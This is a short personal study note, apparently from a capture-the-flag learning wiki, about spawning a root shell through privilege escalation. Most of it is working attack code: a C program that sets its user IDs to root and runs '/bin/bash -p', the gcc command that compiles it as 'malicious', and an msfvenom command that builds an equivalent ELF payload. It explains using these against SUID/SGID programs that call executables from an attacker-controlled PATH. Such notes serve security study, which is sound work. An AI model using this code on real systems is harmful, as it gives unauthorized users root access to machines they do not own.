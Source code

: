 # How to Load a Shell with a Simple Executable

author:: Nathan Acks  
date:: 2021-11-02

It's actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the LD_PRELOAD trick; the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

## Metasploit

The msfvenom tool can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf \
         -o shell.elf
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [Using Metasploit](metasploit.md)
